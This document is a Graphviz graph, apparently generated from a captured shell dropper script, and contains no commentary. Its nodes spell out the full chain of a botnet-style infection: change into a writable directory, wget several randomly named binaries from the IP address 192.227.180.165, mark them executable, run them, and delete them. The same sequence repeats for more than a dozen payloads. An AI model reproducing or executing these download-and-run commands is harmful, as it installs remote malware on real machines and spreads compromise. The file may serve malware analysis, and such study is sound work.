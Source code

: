 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://192.227.180.165/vgsfdag "];
10 -> 12 [label=";,"];
12 [label="chmod +x vgsfdag "];
12 -> 14 [label=";,"];
14 [label="./vgsfdag "];
14 -> 16 [label=";,"];
16 [label="rm -rf vgsfdag "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://192.227.180.165/fdsg "];
28 -> 30 [label=";,"];
30 [label="chmod +x fdsg "];
30 -> 32 [label=";,"];
32 [label="./fdsg "];
32 -> 34 [label=";,"];
34 [label="rm -rf fdsg "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://192.227.180.165/sgf "];
82 -> 84 [label=";,"];
84 [label="chmod +x sgf "];
84 -> 86 [label=";,"];
86 [label="./sgf "];
86 -> 88 [label=";,"];
88 [label="rm -rf sgf "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://192.227.180.165/sfg "];
64 -> 66 [label=";,"];
66 [label="chmod +x sfg "];
66 -> 68 [label=";,"];
68 [label="./sfg "];
68 -> 70 [label=";,"];
70 [label="rm -rf sfg "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://192.227.180.165/sgf "];
82 -> 84 [label=";,"];
84 [label="chmod +x sgf "];
84 -> 86 [label=";,"];
86 [label="./sgf "];
86 -> 88 [label=";,"];
88 [label="rm -rf sgf "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://192.227.180.165/sdfg "];
100 -> 102 [label=";,"];
102 [label="chmod +x sdfg "];
102 -> 104 [label=";,"];
104 [label="./sdfg "];
104 -> 106 [label=";,"];
106 [label="rm -rf sdfg "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://192.227.180.165/sdf "];
118 -> 120 [label=";,"];
120 [label="chmod +x sdf "];
120 -> 122 [label=";,"];
122 [label="./sdf "];
122 -> 124 [label=";,"];
124 [label="rm -rf sdf "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://192.227.180.165/sgfd "];
136 -> 138 [label=";,"];
138 [label="chmod +x sgfd "];
138 -> 140 [label=";,"];
140 [label="./sgfd "];
140 -> 142 [label=";,"];
142 [label="rm -rf sgfd "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://192.227.180.165/fghjd "];
154 -> 156 [label=";,"];
156 [label="chmod +x fghjd "];
156 -> 158 [label=";,"];
158 [label="./fghjd "];
158 -> 160 [label=";,"];
160 [label="rm -rf fghjd "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://192.227.180.165/gfjfdjdjfd "];
172 -> 174 [label=";,"];
174 [label="chmod +x gfjfdjdjfd "];
174 -> 176 [label=";,"];
176 [label="./gfjfdjdjfd "];
176 -> 178 [label=";,"];
178 [label="rm -rf gfjfdjdjfd "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://192.227.180.165/[dfjdfjgfdjf] "];
190 -> 192 [label=";,"];
192 [label="chmod +x [dfjdfjgfdjf] "];
192 -> 194 [label=";,"];
194 [label="./[dfjdfjgfdjf] "];
194 -> 196 [label=";,"];
196 [label="rm -rf [dfjdfjgfdjf] "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://192.227.180.165/fjdfdfdj "];
208 -> 210 [label=";,"];
210 [label="chmod +x fjdfdfdj "];
210 -> 212 [label=";,"];
212 [label="./fjdfdfdj "];
212 -> 214 [label=";,"];
214 [label="rm -rf fjdfdfdj "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://192.227.180.165/dfjdjgfjdfjfd "];
226 -> 228 [label=";,"];
228 [label="chmod +x dfjdjgfjdfjfd "];
228 -> 230 [label=";,"];
230 [label="./dfjdjgfjdfjfd "];
230 -> 231 [label=";,"];
}
